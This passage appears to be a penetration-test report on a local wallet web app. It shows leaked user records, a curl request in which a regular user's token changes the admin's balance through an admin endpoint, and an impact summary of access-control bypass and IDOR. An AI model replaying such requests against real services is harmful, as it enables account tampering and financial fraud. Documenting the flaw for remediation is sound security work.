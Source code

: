 **Result:** ✅ **VULNERABILITY CONFIRMED**
```json
{
  "users":[
    {
      "id":"22448b1c-62ed-4a42-9469-b8ebcc3e96e0",
      "username":"admin",
      "email":"admin@wallet.com",
      "balance":10000,
      "role":"admin"
    },
    {
      "id":"2456227e-df7c-4981-b55b-fffc5f89f612",
      "username":"testuser",
      "email":"test@example.com",
      "balance":999999,
      "role":"user"
    }
  ]
}
```

#### 3. Successful Balance Modification Attack
**Test Command:**
```bash
curl -X POST "http://localhost:3000/api/admin/modify-balance" \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REGULAR_USER_TOKEN]" \
  -d '{"userId":"22448b1c-62ed-4a42-9469-b8ebcc3e96e0","newBalance":1}'
```

**Result:** ✅ **VULNERABILITY CONFIRMED**
```json
{
  "message":"Balance updated successfully",
  "user":{
    "id":"22448b1c-62ed-4a42-9469-b8ebcc3e96e0",
    "username":"admin",
    "balance":1
  }
}
```

### Impact Assessment

#### Critical Findings:
1. **Complete Access Control Bypass:** Regular user successfully accessed admin functions
2. **Data Manipulation:** Successfully modified admin user's balance from $10,000 to $1
3. **Information Disclosure:** Retrieved sensitive information about all users including admin credentials
4. **IDOR Confirmed:** Accessed any user's profile data by manipulating user ID parameter

#### Security Implications:
- **Complete System Compromise:** Any authenticated user can perform admin actions
- **Financial Impact:** Users can modify any account balance
- **Privacy Violation:** Access to all user personal and financial information
- **Privilege Escalation:** Regular users have full admin capabilities
